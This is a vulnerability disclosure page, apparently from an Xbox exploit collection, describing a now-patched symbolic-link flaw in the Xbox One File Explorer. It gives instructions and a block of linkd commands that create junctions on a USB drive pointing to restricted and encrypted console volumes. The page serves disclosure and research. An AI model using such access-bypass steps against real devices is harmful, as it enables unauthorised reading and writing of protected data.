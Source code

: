 # File Explorer - Symbolic links vulnerability

## Metadata
|                              |                                                     |
| ---------------------------- | --------------------------------------------------- |
| Release date                 | 02.06.2017                                          |
| Author                       | xenomega                                            |
| Classification               | File Access                                         |
| Patched                      | yes                                                 |
| Patch date                   | 05.05.2017                                          |
| First patched system version | 10.0.15063.2022 (RS2_RELEASE_XBOX_1704.170501-1052) |
| Source                       | https://github.com/Xenomega/xsymlink                |
| Download                     | [Download](../_binaries/xsymlink.zip)               |

## Info
Access restricted/encrypted volumes using the Xbox File Explorer.

- Patched as of 5/5/2017: 10.0.15063.2022 (RS2_RELEASE_XBOX_1704.170501-1052).  Thus in accordance with responsible disclosure.
- The Xbox One File Explorer does not check if a path is a symbolic link elsewhere, allowing an attacker to browse/read/write to mounted volumes which are normally restricted.
- This includes any encrypted virtual harddisk partitions (XVD files) which the console mounts for content such as gamesaves, etc.

## Prerequisites
- Download Windows Server 2003 Resource Kit Tools, from which you'll need the "linkd" utility, as the program relies on it to create links, since mklink does not link to paths that do not exists, and the paths we intend to link to are likely non-existent on your computer.

## Instructions
 - Change the drive letter to your USB drive letter in Program.cs  
 - Run it  
 - Plug it into Xbox, use File Browser to browse through the symlinks, which will link to other parts of the system.

## Manual instructions

The following snippet assume that your usb flash drive is mounted to `E:\` on your computer that's executing linkd.

```
mkdir E:\symlinks
linkd.exe E:\symlinks\Volume0\ \\?\GLOBALROOT\Device\HarddiskVolume0\
linkd.exe E:\symlinks\Volume1\ \\?\GLOBALROOT\Device\HarddiskVolume1\
linkd.exe E:\symlinks\Volume2\ \\?\GLOBALROOT\Device\HarddiskVolume2\
linkd.exe E:\symlinks\Volume3\ \\?\GLOBALROOT\Device\HarddiskVolume3\
linkd.exe E:\symlinks\Volume4\ \\?\GLOBALROOT\Device\HarddiskVolume4\
linkd.exe E:\symlinks\Volume5\ \\?\GLOBALROOT\Device\HarddiskVolume5\
... etc ...
```

**NOTE**: You might be able to use [`junction.exe` from Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/junction) too!
